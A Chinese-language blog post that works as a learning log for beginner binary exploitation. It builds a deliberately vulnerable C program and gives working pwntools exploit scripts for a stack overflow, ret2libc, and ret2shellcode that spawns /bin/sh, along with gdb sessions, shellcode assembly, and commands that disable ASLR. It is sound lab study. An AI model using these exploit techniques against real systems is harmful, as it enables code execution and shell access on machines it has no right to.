






## 前言

经过很长一段时间的学习（理解为浪费时间即可），终于能简单过个 pwn 的 demo 了。于是水一篇博客记录一下。

## 准备

建立一个 pwn 文件夹做工作区，初始化一个 python 环境，装好 `pwntools` ，虽然还不怎么用得到。题目来源是 [ctf101 binary-exploitation buffer-overflow](https://ctf101.org/binary-exploitation/buffer-overflow/)，源码略做修改。

```c
#include <stdio.h>
#include <unistd.h>

int main(void) {
  volatile int secret = 0x12345678;
  char buffer[100] = "";
  printf("buffer: %p, secret: %p\n", buffer, &secret);
  read(STDIN_FILENO, buffer, 0x100); // ! dangerous !
  if (secret == 0x1234) {
    puts("cool!");
  } else {
    puts("that's not cool enough.");
  }
  return 0;
}
```

漏洞行已经标注出。题意比较清楚，通过 `read(0,buffer,0x100)` 溢出覆写 `secret`，来通过后续的检查。`volatile`是为了避免被优化成寄存器变量，不过指定 `-O0` 的时候加不加`volatile`都无所谓。

简单写个 `Makefile` 编译出 32 和 64 位两个版本，之后也会写两个 exp 。

```makefile
all: question32 question64

question32: question.c
	gcc $^ -m32 -Wall -Wextra -Wpedantic -fno-stack-protector -g -O0 -o question32

question64: question.c
	gcc $^ -Wall -Wextra -Wpedantic -fno-stack-protector -g -O0 -o question64

```

比较重要的是 `-fno-stack-protector`，不加的话会在溢出 `buffer` 的时候触发 stack canary 检测，直接报 `stack smashing detected` 后退出。不过 32 位似乎没这个问题。

再创建 `exploit32.py`和`exploit64.py`两个文件用来保存我们的exploit脚本，准备工作就算结束了。

## 缓冲区溢出

### 原理

引用自 [ired.team binary exploitation](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/stack-based-buffer-overflow) ：

> At a high level, exploiting a buffer overflow boils down to the following key points:
>
> - Attacker overflows vulnerable program's memory buffer by writing to it more data (including the malicious code, usually shellcode) than the program anticipated, but did nothing (bound checking) to prevent it from happening;
> - When a memory buffer is overflowed, the adjacent memory in the vulnerable program is replaced with malicious content supplied by an attacker;
> - Attacker subverts the vulnerable program and forces it to execute the malicious code, which was written to the compromised program's memory, when the program's memory buffer was overflowed;
> - The vulnerable program starts executing malicious code, and depending on what the vulnerable program is/what security context it runs in and whether it is being exploited locally or over the network, results in attacker escalating their privileges on an already compromised system or provides them with a remote access to system being exploited.

简而言之，就是通过覆写内存，操纵程序的控制流，运行攻击者的恶意代码或窃取数据。

### 32位栈上缓冲区溢出

分析案例代码，`buffer`和`secret`是栈上相邻的变量，从声明顺序盲猜`secret`在更接近栈底的位置（高地址），`buffer`在更接近栈顶的位置（低地址）。x86体系结构下栈从高地址向低地址增长，`&buffer[0]`是栈顶，则`&buffer[100]`就是`secret`的地址了。



`read(STDIN_FILENO, buffer, 0x100)` 从标准输入读取 `0x100` 个字节，从 `&buffer[0]` 开始写入。因为边界检查失效（写入长度`0x100`大于`buffer[100]`长度），只要我们提供 `104` 个字节的输入，最后四个字节就会覆盖 `secret` 变量的值。

为了验证上面的说法，可以先创建一个 payload 文件作为 `question32` 的输入。

```python
open('payload32.bin','wb+').write(b'\x41'*104)
```

接下来使用 gdb 观察读取输入前后的栈数据。

```plaintext
Reading symbols from question32...
(gdb) b question.c:8
Breakpoint 1 at 0x1214: file question.c, line 8.
(gdb) b question.c:9
Breakpoint 2 at 0x122a: file question.c, line 9.
(gdb) r < payload32.bin
Starting program: /home/weakptr/repos/pwn/lab-1/question32 < payload32.bin
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
buffer: 0xffffd058, secret: 0xffffd0bc

Breakpoint 1, main () at question.c:8
8         read(STDIN_FILENO, buffer, 0x100);
(gdb) x/32x $esp
0xffffd050:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd060:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd070:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd080:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd090:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd0a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd0b0:     0x00000000      0x00000000      0x00000000      *0x12345678*
0xffffd0c0:     0xffffd100      0xf7fbe66c      0xf7fbeb20      0xffffd0f0
(gdb)
```

观察第 21 行，`0xffffd0bc` 处，`0x12345678`，就是 `question.c` 中初始化的 `secret` 了。而从 `0xffffd0508`到`0xffffd0bc`就是`buffer`的内容。

我们继续执行到 `read` 这一行后。

```plaintext
(gdb) next

Breakpoint 2, main () at question.c:9
9         if (secret == 0x1234) {
(gdb) x/32x $esp
0xffffd050:     0x00000000      0x00000000      0x41414141      0x41414141
0xffffd060:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd070:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd080:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd090:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd0b0:     0x41414141      0x41414141      0x41414141      *0x41414141*
0xffffd0c0:     0xffffd100      0xf7fbe66c      0xf7fbeb20      0xffffd0f0
(gdb) p /x secret
$2 = 0x41414141
```

观察到 `secret` 被覆盖为 `0x41414141`。

现在只需要把 payload32.bin 中最后四个字节改成预期的 `secret` 值 `0x1234` 即可。

```python
import pwn
import struct

proc = pwn.process('./question32')
b = struct.pack('@l', 0x1234)
proc.sendline(b'\x41'*100 + b)
print(proc.recv().decode())

```

结果：

```plaintext
(.venv) vm :: repos/pwn/lab-1 » python exploit32.py
[+] Starting local process './question32': pid 640653
[*] Process './question32' stopped with exit code 0 (pid 640653)
buffer: 0xffc0bf88, secret: 0xffc0bfec
cool!

```

### 64位栈上缓冲区溢出

x86-64架构下的栈上缓冲区溢出和 32 位架构有所不同，主要区别在于 64位 ELF 多了很多保护机制，直接影响栈上缓冲区溢出的就有 stack canary。

#### stack canary

关于 stack canary 机制的解释摘录如下。

> Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately.

尝试让 gcc 吐出带 canary 的汇编如下，命令 `gcc -S question.c -g -O0 -fstack-protector -o question64.s`

```assembly
main:
	endbr64
	pushq	%rbp
	movq	%rsp, %rbp
	addq	$-128, %rsp
	movq	%fs:40, %rax
	movq	%rax, -8(%rbp)
	xorl	%eax, %eax
	movl	$305419896, -116(%rbp)
	movq	$0, -112(%rbp)
	movq	$0, -104(%rbp)
	movq	$0, -96(%rbp)
	movq	$0, -88(%rbp)
	// 略
    movl	$0, %eax
	movq	-8(%rbp), %rdx
	subq	%fs:40, %rdx
	je	.L5
	call	__stack_chk_fail@PLT
.L5:
	leave
	ret
```

在函数序言部分多出了几条指令：

```assembly
	movq	%fs:40, %rax
	movq	%rax, -8(%rbp)
	xorl	%eax, %eax
```

而末尾返回之前多了一条判断：

```assembly
    movl	$0, %eax
	movq	-8(%rbp), %rdx
	subq	%fs:40, %rdx
	je	.L5
	call	__stack_chk_fail@PLT
.L5:
	leave
	ret
```

明显能看出，`%fs:40` 就是上文引用中所谓的 *a secret value placed on the stack which changes every time the program is started* 。

#### 栈对齐

在64位系统上，栈默认会对齐到 16 字节（也许看编译器默认参数，在我的实验环境中是这样的）。例如案例中 `question.c` 的 `secret` 我们可以看做 4 字节大小（*具体大小和你的系统、CPU、编译器都有关系*），也就是 `buffer` 加上 `secret` 一共 104 个字节，除 16 得 6.5 显然是没对齐的。编译器会自动分配对齐到 16 字节的栈大小：112 。

```assembly
main:
	pushq	%rbp
	movq	%rsp, %rbp
	subq	$112, %rsp # align to 16 bytes
	movl	$305419896, -4(%rbp)
	movq	$0, -112(%rbp)
	movq	$0, -104(%rbp)
	movq	$0, -96(%rbp)
	movq	$0, -88(%rbp)
	movq	$0, -80(%rbp)
	movq	$0, -72(%rbp)
	movq	$0, -64(%rbp)
	movq	$0, -56(%rbp)
	movq	$0, -48(%rbp)
	movq	$0, -40(%rbp)
	movq	$0, -32(%rbp)
	movq	$0, -24(%rbp)
	movl	$0, -16(%rbp)
	leaq	-4(%rbp), %rdx # %rdx => secret
	leaq	-112(%rbp), %rax # %rax => buffer
```

简单计算可得 `-4(%rbp) ~ (%rbp)` 是 `secret`，`-12(%rbp) ~ -4(%rbp)` 是为了对齐而填充的大小。

如果我们想溢出覆盖 `secret` 的值，则需要填充 100 字节的 `buffer` + 8 字节的对齐 + 4 字节 `secret` 值，一共 112 字节的 payload。

```python
import pwn
import struct

proc = pwn.process('./question64')
b = struct.pack('@q', 0x1234)
print(b)
proc.sendline(b'\x41'*100 + b'\x00' * 8 + b)
print(proc.recv().decode())

```

结果：

```plaintext
(.venv) vm :: repos/pwn/lab-1 » python exploit64.py 
[+] Starting local process './question64': pid 10128
b'4\x12\x00\x00\x00\x00\x00\x00'
[*] Process './question64' stopped with exit code 0 (pid 10128)
buffer: 0x7ffc03d29950, secret: 0x7ffc03d299bc
cool!
```

## ROP 基础

有趣的部分真正开始。ROP 全称是 *Return Oriented Programming*，一种通过返回指令串联代码片段，以执行复杂逻辑的技术思想。参考文章：[ctf wiki - 基本ROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#rop)。

### 原理

从简单的开始说起。`call`指令的本质是压栈IP寄存器接一个无条件跳转指令。而`ret`指令本质是从栈上弹出一个地址，然后无条件跳转。

那么能用`ret`替代`call`指令吗？把`ret`当成`jmp`来用，当然没什么不能的（考虑 x86/cdecl 调用约定）。



`ret` 指令执行后，栈上布局就会变成：



和正常函数调用如出一辙。

### ASLR

想要实现自由控制跳转地址和参数的目的，还有一个拦路虎叫 ASLR 不作更多解释。通过 `sysctl` 或编辑 `/proc/sys/kernel/randomize_va_space` 控制。

```makefile
.PHONY: disable-aslr
disable-aslr:
	echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

.PHONY: enable-aslr
enable-aslr:
	echo 1 | sudo tee /proc/sys/kernel/randomize_va_space
```

之后可以多次运行 `question32` ，观察输出来确认栈地址是否变化。

### ret2libc

```c
// gcc question.c -m32 -fno-stack-protector -no-pie -g -O0 -o question32
#include <stdio.h>
#include <unistd.h>

char name[100] = "";

int main(void) {
  char buffer[100] = "";
  printf("name: %p buffer: %p\n", name, buffer);
  printf("what's your name?\n");
  read(STDIN_FILENO, name, sizeof(name) - 1);
  printf("Welcome, %s. Show your hack skill.\n", name);
  read(STDIN_FILENO, buffer, 0x100);
  return 0;
}
```

简单写一个脚本。

```python
import pwn
from pwn import gdb, process
import struct


def p32s(*i):
    return struct.pack("<"+"I"*len(i), *i)


p = gdb.debug('./question32', '''
b question.c:13
continue
''')
p.interactive()
```

观察程序的 epilogue 部分，`main()` 在 prologue 部分保存了 `%ecx`、`%edi`、`%ebx` 寄存器的值，在清栈阶段会恢复这些寄存器。

```assembly
   leal	-12(%ebp), %esp
   popl	%ecx
   popl	%ebx
   popl	%edi
   popl	%ebp
   leal	-4(%ecx), %esp
   ret
```

需要注意的是 `%ecx` 寄存器的值会被用作 `%esp` ，而我们覆写返回地址必然导致 `%ecx` 寄存器的值被覆写，所以需要提前算好 `leal -4(%ecx), %esp` 指令执行后 `%esp` 指向的位置，让 `%esp` 刚好指向我们期望的 `system` 函数地址。 

脚本启动 gdb 后先计算下 `&buffer` 到 `movl -12(%ebp), %esp` 这条指令后的 `%esp` 的距离，也就是从`buffer`一路写到栈上保存的 `%ecx` 前所需填充的长度。

```plaintext
gdb-peda$ p &buffer
$1 = (char (*)[100]) 0xffffd0dc
gdb-peda$ distance 0xffffd0dc
From 0xffffd14c (SP) to 0xffffd0dc: -112 bytes, -28 dwords
gdb-peda$
```

得到长度后简单计算下 `&buffer(0xffffd0dc) + padding_size(112) + register(4) * 4` 等于 `0xffffd1bc`，这个地址就是我们溢出后覆写的返回地址所在位置，这个地址加上 4 就是 `%ecx` 的取值了。

最后获取 `system` 函数的地址和 `name` 的地址，作为 `system` 函数的返回地址我们再获取一下 `exit` 函数的地址。

```plaintext
gdb-peda$ p &system
$1 = (<text variable, no debug info> *) 0xf7dcbcb0 <system>
gdb-peda$ p &name
$2 = (char (*)[100]) 0x804c060 <name>
gdb-peda$ p &exit
$3 = (<text variable, no debug info> *) 0xf7dbe1c0 <exit>
gdb-peda$
```

综合这些元素组装一个 payload 。

```python
from pwn import gdb
import struct

p = gdb.debug('./question32', '''
b question.c:13
continue
''')

p.send(b'/bin/sh')

payload = b'\x42' * 112
# %ecx, %ebx, %edi, %ebp, &system, &exit, &name
stack_elem = [0xffffd1c0, 0, 0, 0, 0xf7dcbcb0, 0xf7dbe1c0, 0x804c060]
payload += struct.pack('<IIIIIII', *stack_elem)
p.send(payload)

p.interactive()
```

启动调试，注意到执行到 `ret` 时，`%esp` 已经是 `system` 的地址，并预先填充了 `exit` 函数地址作为 `system` 函数的返回地址，`"/bin/sh"` 字符串的指针作为 `system` 函数的参数。



继续执行。



成功取得shell。现在我们把调试器去除，使用 `pwn.process` 来启动程序。

```python
from pwn import process
import struct

p = process('./question32')

p.send(b'/bin/sh')

payload = b'\x42' * 112
# %ecx, %ebx, %edi, %ebp, &system, &perror, &name
stack_elem = [0xffffd1c0, 0, 0, 0, 0xf7dcbcb0, 0xf7dbe1c0, 0x804c060]
payload += struct.pack('<IIIIIII', *stack_elem)
p.send(payload)

p.interactive()
```

结果：

```plaintext
(.venv) vm :: repos/pwn/lab-2 » python exp32.py
[+] Starting local process './question32': pid 146484
[*] Switching to interactive mode
name: 0x804c060 buffer: 0xffffd13c
what's your name?
Welcome, /bin/sh. Show your hack skill.
$ echo $0
/bin/sh
$
```

成功。

### ret2shellcode

这是另一个例子，不同之处在于栈可执行保护没有开启（编译参数 `-z execstack`）。其他和上例相同。

pwntools 提供了一些 shellcode 片段，其中就有用系统调用 `execve` 启动 `/bin/sh` 的代码。在 `ret2libc` 的 `exploit` 基础上，我们只用把返回地址修改成 `buffer` 的地址，把填充 `buffer` 的 `\x41` 换成 shellcode 即可。

```python
from pwn import gdb, shellcraft, asm
import struct

p = gdb.debug('./question32', '''
b question.c:13
continue
''')

p.send('hacker')
print(p.recv().decode())

payload = asm(shellcraft.i386.linux.sh())
payload += b'\x00' * (112-len(payload))
# %ecx, %ebx, %edi, %ebp, &buffer
stack_elem = [0xffffd1c0, 0, 0, 0, 0xffffd13c]
payload += struct.pack('<IIIII', *stack_elem)
p.send(payload)
p.interactive()
```

在调试器中观察，确认`ret`跳转到了`&buffer`，将脚本改为 `pwn.process` 即可。



还可以看下 `shellcraft.i386.linux.sh` 提供的代码片段长什么样。

```assembly
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

乍一看有点奇怪，但注意观察汇编后的机器码就会发现这段汇编编译后不包含 `\x00`，在 `strcpy` 之类的场景下能避免被截断，泛用性更好。

## 总结

存在几个问题。

1. 很多保护机制绕过方法没有学。ASLR、PIE、NX、CANARY 等。
2. 花了很长时间去无谓地算偏移，明明给了 `andl -16, %esp` 却不肯看一眼对齐前后 `%esp` 怎么变。
3. gdb 不熟练，`gdb-peda` 真的很好用，绝了。
4. 还没试过构造 ROP Gadget 链

各方面都有很大提高空间吧。想找个群什么的有问题不用自己强钻牛角尖。
